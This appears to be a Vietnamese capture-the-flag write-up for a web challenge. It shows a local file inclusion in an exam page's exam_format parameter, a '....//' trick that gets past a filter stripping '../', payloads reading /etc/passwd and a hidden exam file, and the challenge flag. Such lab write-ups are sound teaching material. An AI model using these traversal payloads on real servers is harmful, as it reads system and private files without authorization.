



# g3ren9's exam

## Summary

```
Để chuẩn bị cho kỳ thi tuyển sinh của Học viện Hoàng gia BTYT giấu tên, g3ren9 đã cày nát kho đề thi thử các năm của ngôi trường danh giá này. Tuy nhiên, sau chuỗi ngày cày cuốc thâu đêm, anh chợt nhận ra: ngoài con đường chính đạo, vẫn còn các bí kíp tà đạo ngầu hơn rất nhiều, chẳng hạn như "chọc ngoáy" hệ thống thi để mượn tạm bộ đề chính thức đang bị ẩn giấu. Nhà trường lưu trữ file de_thi_chinh_thuc.txt đâu đó tại hệ thống máy chủ này.
```

## Khai thác

Đăng ký một tài khoản, sau đó đăng nhập tại `/login.php`. Truy cập `/exam.php` và làm bài thi đúng hết sẽ ra fake flag:



### Phát hiện LFI

Trong `exam.php` có các endpoint:

```text
/exam.php?exam_format=en.php
/exam.php?exam_format=jp.php
```

Điều này cho thấy server lấy tên file từ `exam_format`. Payload path traversal:

```text
/exam.php?exam_format=../../../../etc/passwd
```

Kết quả là `404 Not found.`, chuỗi `../` đang bị bộ lọc loại bỏ.

Có thể bypass bằng cách dùng `....//`. Sau khi bộ lọc xử lý, chuỗi này trở thành `../`.

```text
/exam.php?exam_format=....//....//....//....//etc/passwd
```



Bypass thành công.

### Đọc file đề chính thức

Request hoàn chỉnh:

```text
/exam.php?exam_format=....//....//....//....//de_thi_chinh_thuc.txt
```



## Flag

```text
PTITCTF{9Ud_J0Ob_w3lc0m3_tO_Th3_RoY4L_Ac4d3mY_BTYT}
```
